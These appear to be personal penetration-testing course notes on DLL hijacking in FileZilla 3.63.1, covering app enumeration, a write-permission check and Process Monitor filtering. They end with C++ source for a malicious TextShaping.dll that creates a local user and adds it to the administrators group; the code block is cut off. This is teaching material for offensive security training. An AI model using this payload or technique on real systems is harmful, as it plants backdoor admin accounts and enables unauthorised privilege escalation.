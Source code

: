 #### Scenario 

Replace a missing DLL with a malicious DLL 

Enumerating installed apps:

`Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`

Result:

`FileZilla 3.63.1`

This application has a #dllhijacking vulnerability

We'll attempt to replace the `textshaping.dll` with a malicious one

Determining if we can write to FileZilla directory

`echo "test" > 'C:\FileZilla\FileZilla FTP Client\test.txt'`

`type 'C:\FileZilla\FileZilla FTP Client\test.txt'`

We can. 

Use process monitor (if an admin) to get list of dlls used by a service binary.

Add Filter for filezilla.exe

Download this shit from microsoft sysinternals site. 

![Figure 5: Add Filter for filezilla.exe](https://static.offsec.com/offsec-courses/PEN-200/imgs/winprivesc/430e1aa80d980c8e9160be549733996c-privesc_svcdll_pmfilter.png)

Clear the current logged events

![Figure 6: Clear the current logged events](https://static.offsec.com/offsec-courses/PEN-200/imgs/winprivesc/5c7bfb44d40076cc45e5ce66c5b34bd1-privesc_svcdll_clear.png)

Run the FileZilla app

Add Filters looking for CreateFile operations on paths containing TextShaping.dll

![Figure 7: Add Filters looking for CreateFile operations on paths containing TextShaping.dll](https://static.offsec.com/offsec-courses/PEN-200/imgs/winprivesc/96d3cc822281c7d597412e0b78698a2f-privesc_svcdll_dllsearch.png)

Resulting events after applying the filters

![Figure 8: Resulting events after applying the filters](https://static.offsec.com/offsec-courses/PEN-200/imgs/winprivesc/2108c3ff37a75c50a6d43d6ceb963e5b-privesc_svcdll_dllsearch_results.png)

We can attempt to write our own `TextShaping.dll` in C++

```C++
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
```
